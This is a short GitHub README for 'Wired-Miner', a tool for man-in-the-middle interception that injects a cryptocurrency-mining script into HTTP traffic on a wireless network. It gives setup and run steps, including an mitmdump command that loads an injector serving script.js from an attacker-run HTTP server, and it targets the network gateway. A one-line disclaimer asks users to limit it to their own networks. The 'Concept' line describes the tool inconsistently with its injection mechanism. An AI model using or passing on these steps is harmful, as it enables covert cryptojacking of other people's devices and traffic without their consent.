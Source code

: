 # Wired-Miner

Collaborative (mitm) cryptocurrency mining pool for your wireless networks

**Warning: Don't use this project explicitly. Please only integrate on your own networks!**

## Concept
- Creating a mining algo to run on your Lan network, and use your router to mine while you aren't using your internet

## Use
- install.sh
```
bash install.sh
```
- edit routersip.txt with one IP per line
- edit coffeeMiner.py, line 28, with the coffeeMiner httpserver IP:
```py
os.system("~/.local/bin/mitmdump -s 'injector.py http://10.0.2.20:8000/script.js' -T")
```
- execute coffeeMiner.py
```
python3 coffeeMiner.py ipgateway
```
